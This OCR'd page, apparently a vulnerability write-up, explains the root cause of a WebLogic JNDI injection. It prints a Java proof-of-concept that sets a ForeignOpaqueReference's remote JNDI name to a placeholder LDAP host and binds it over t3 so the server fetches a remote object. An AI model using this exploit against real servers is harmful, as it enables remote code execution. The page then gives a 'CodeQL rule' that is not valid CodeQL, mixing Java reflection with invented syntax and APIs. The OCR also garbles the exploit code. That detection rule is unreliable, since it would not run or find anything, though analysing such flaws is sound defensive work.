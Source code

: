 #### Root Cause

context


```
//iiop
public static void main (String args []) throws Exception {
InitialContextc=getInitialContext("t3://127.0.0.1:7001");
Hashtable<String, String> env = new Hashtable<String, String>();
env. put (Context. INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi. registry. RegistryContextFactory");
weblogic.deployment. jms. Foreign0paqueReference f=new weblogic.deployment.jms. Foreign0paqueReference() ;
Field jndiEnvironment=weblogic.deployment.jms.Foreign0paqueReference.class.getDeclaredField("jndiEnvironment'
jndiEnvironment. setAccessible(true);
jndiEnvironment.set(f, env);
Field remoteJNDIName=weblogic.deployment.jms.Foreign0paqueReference.class.getDeclaredField("remoteJNDIName")
remoteJNDIName.setAccessible(true);
remoteJNDIName.set(f,"ldap://xxxxxxxx/xxx");
c.bind("xxxx", f);
c. lookup ("xxx") ;

```


https://github.com/advisories/GHSA-f8x3-c29w-wfmj


CodeQL rule that checks for broken access control

```
import java
import DataFlow::PathGraph
import DataFlow::Sanitizers

// Define the whitelist of allowed remote JNDI names
let allowedJndiNames = ["ldap://127.0.0.1/", "ldap://localhost/"]

class JndiAccessControl extends Method {
  JndiAccessControl() {
    // Find the JMS ForeignOpaqueReference object
    weblogic.deployment.jms.ForeignOpaqueReference f =
      weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment")
      .setAccessible(true)
      .get(thisEnclosingObject())

    // Find the remote JNDI name used in the code
    String remoteJndiName = weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName")
      .setAccessible(true)
      .get(f)

    // Check if the remote JNDI name is from a trusted source
    exists(allowedJndiName | remoteJndiName.startsWith(allowedJndiName)) or
    (
      // Check if the remote JNDI name is constructed from user input
      let sources = DataFlow::PathGraph::getSources(remoteJndiName)
      let taintedStrings = sources.getTaintStrings(DataFlow::Sanitizers::allSanitizers())
      taintedStrings.getSize() > 0
    )
  }
}

```
